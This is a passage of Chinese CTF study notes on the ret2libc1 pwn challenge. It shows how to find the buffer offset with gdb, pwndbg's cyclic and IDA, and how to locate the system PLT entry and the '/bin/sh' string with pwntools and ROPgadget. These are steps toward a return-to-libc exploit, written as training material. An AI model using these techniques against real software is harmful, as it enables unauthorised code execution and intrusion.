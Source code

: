 

IDA或者gdb动态调试即可

获取1的方法：

方法一：gdb动态调试

```
先运行文件
ret2libc
新开窗口
sudo ps aux | grep ret2libc
gdb -p <pid>
在另一边输入s的内容
n或s
逐步查看s的地址
S：0xffecac28

IDA查看s可容纳多少：
0x(60+4*4)=0x(70)
也可以使用pwndbg里的内容：
这里需要从
gdb ret2libc
然后：
cyclic 200
r
出现的地址（Invalid address 0x62616164）用
cyclic -l 0x62616164
就可以得知偏移量为112(0x70)


IDA查看system函数地址：
要查看.plt的_system
0x08048460
IDA查看"/bin/sh"地址：
0x08048720

或者使用python：
got.plt中的信息也可以使用file.got查看
from pwn import *

file = ELF("./ret2libc1")
system = file.plt["system"]  #file.plt是一个字典，索引是函数名
bin_sh = next(file.search(b"/bin/sh"))  #file.serch()返回一个generator，需要使用next函数查看其中的内容

```



此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```
ROPgadget --binary ret2libc1 --string '/bin/sh'
```


[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"